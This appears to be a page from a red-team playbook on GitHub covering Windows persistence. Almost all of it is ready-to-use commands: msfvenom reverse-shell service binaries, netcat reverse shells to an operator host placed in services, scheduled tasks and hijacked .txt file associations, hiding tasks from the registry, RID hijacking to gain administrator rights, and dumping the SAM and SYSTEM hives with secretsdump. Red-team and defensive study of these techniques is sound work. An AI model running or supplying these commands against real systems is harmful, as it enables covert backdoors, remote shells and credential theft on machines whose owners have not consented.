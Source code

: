 # 5.1 Persistence

## Table of Contents

- [Alternate Data Stream Files (ADS)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Alternate-Data-Stream-Files-ADS)
- [Backdoor Services](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Backdoor-Services)
- [Hijack File Associations](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Hijacking-File-Associations)
- [Normal.dotm](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Normaldotm)
- [Relative ID (RID) Hijacking](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Relative-ID-RID-Hijacking)
- [Scheduled Tasks](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Scheduled-Tasks)
- [Special Privileges and Security Descriptors](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Special-Privileges-and-Security-Descriptors)
- [User Group Manipulation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#User-Group-Manipulation)

## Alternate Data Stream Files (ADS)

```c
C:\> echo <PAYLOAD> > %USERPROFILE%\AppData:<FILE>
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/files/ads1.png">
</p>

### Listing ADS Files

```c
C:\> dir /r /a %USERPROFILE%\AppData\
```

### Deleting ADS Files

> https://live.sysinternals.com/

```c
C:\> .\streams64.exe -s C:\PATH\TO\FOLDER\
C:\> .\streams64.exe -d C:\PATH\TO\FOLDER\
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/files/ads2.png">
</p>

## Backdoor Services

### User Password Reset

Reset a users `password`.

```c
C:\> sc.exe create <SERVICE_NAME> binPath= "net user <USERNAME> <PASSWORD>" start= auto
C:\> sc.exe start <SERVICE_NAME>
```

### Reverse Shell Services

Create a `reverse shell` to be triggert by the service.

```c
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe-service -o <FILE>.exe
```

```c
C:\> sc.exe create <SERVICE_NAME> binPath= "C:\Windows\<FILE>.exe" start= auto
```

```c
C:\> sc.exe start <SERVICE_NAME>
```

### Modifying existing services.

```c
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe-service -o <FILE>.exe
```

```c
C:\> sc.exe query state=all
```

```c
C:\> sc.exe config <SERVICE_NAME> binPath= "C:\Windows\<FILE>.exe" start= auto obj= "LocalSystem"
```

```c
C:\> sc.exe qc <SERVICE_NAME>
```

```c
C:\> sc.exe start <SERVICE_NAME>
```

## Hijacking File Associations

Registry Path.

```c
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\
```

Now search for the desired `file extention` and change the `Programmatic ID (ProgID)`.

```c
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\txtfile\shell\open\command
```

Then build a `PowerShell Script` and place it anywhere on the target.

```c
Start-Process -NoNewWindow "C:\temp\nc64.exe" "-e cmd.exe <LHOST> <LPORT>"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Next change the `Registry Key` to point to the script.

```c
powershell -windowstyle hidden C:\Windows\System32\<FILE>.ps1 %1
```

## Normal.dotm

Add a macro to the `Normal.dotm` which get's executed whenever `any` document is opened.

## Relative ID (RID) Hijacking

Get the current `RIDs`.

```c
PS C:\> wmic useraccount get name,sid
```

```c
Name                SID
Administrator       S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503
Guest               S-1-5-21-1966530601-3185510712-10604624-501
```

Edit the `registry` by using `PsExec64.exe` to add the `RID` of `500`, which is a `Local Administrator` to another user.

```c
PS C:\> PsExec64.exe -i -s regedit
```

Path in Registry.

```c
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\
```

Under the corresponding key, there will be a vlaue called `F`, which holds the user's effective `RID`. Those are stored
by using `little-endian` notation, so the bytes appear `reversed`.

```c
500 = 0x01F4
```

Switched Bytes.

```c
F401
```

Save it and on the next login, the user should get `RID 500` assigned.

## Scheduled Tasks

```c
C:\> schtasks /create /sc minute /mo 1 /tn <TASK_NAME> /tr "C:\nc64.exe -e cmd.exe <LHOST> <LPORT>" /ru SYSTEM
```

```c
C:\> schtasks /query /tn <TASK_NAME>
```

### Hide malicious Tasks

Open the follwing path in the registry.

```c
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\
```

Then delete the `security descriptor` for the task.

## Special Privileges and Security Descriptors

### Edit Special Privileges

Add `SeBackupPrivilege` and `SeRestore Privilege` to a user.

Export the configuration file.

```c
PS C:\> secedit /export /cfg config.inf
```

Edit the file and add the `username`.

```c
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-551,<USERNAME>
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-551,<USERNAME>
```

Convert the `.inf` file into a `.sdb` file and load the configuration back into the system.

```c
PS C:\> secedit /import /cfg config.inf /db config.sdb
PS C:\> secedit /configure /db config.sdb /cfg config.inf
```

### Enable WinRM Security Descriptor

Open the `permission window` and add a user, which should granted `Full Control` in order to `remote login`.

```c
PS C:\> Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

## User Group Manipulation

Add user to `Local Administrators` group.

```c
PS C:\> net localgroup administrators <USERNAME> /add
```

Add user to `Backup Operators` group.

```c
PS C:\> net localgroup "Backup Operators" <USERNAME> /add
```

Add user to `Remote Desktop Users` group.

```c
PS C:\> net localgroup "Remote Management Users" <USERNAME> /add
```

Disable `LocalAccountTokenFilterPolicy`.

```c
PS C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Dumping `SAM` and `SYSTEM` files with `Backup Operator` privileges.

```c
PS C:\> reg save hklm\system system.bak
```

```c
PS C:\> reg save hklm\sam sam.bak
```

```c
$ impacket-secretsdump -sam sam.bak -system system.bak LOCAL
```

### Previous

- [5 Installation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5-Installation.md)

### Next

- [5.2 Situational Awareness](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md)

